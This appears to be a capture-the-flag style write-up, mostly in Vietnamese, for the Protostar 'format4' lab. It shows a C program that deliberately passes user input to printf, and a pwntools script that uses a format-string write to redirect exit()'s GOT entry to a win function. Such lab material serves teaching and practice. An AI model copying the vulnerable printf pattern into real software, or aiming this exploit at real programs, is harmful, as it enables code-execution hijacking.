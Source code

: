 # format string 4

## source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

## solution

sử dụng format string để ghi giá trị của hàm hello() vào exit() trong bảng GOT.

### exploit with pwntool

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process('../../protostar/format4')
    p.sendline(payload)
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    p.close()
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x8049724: 0x80484b4
    # địa chỉ exit() trong GOT : địa chỉ hàm hello()
}
#33 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (33 - len(payload))
log.info("payload = %s" % repr(payload))
p = process('../../protostar/format4')
p.sendline(payload)

print(p.recvall())
```

![1](1.png)

### %n

![2](2.png)

mất khoảng 10s để in đủ số ký tự của payload

### %hn

![4](4.png)

### %hhn

![6](6.png)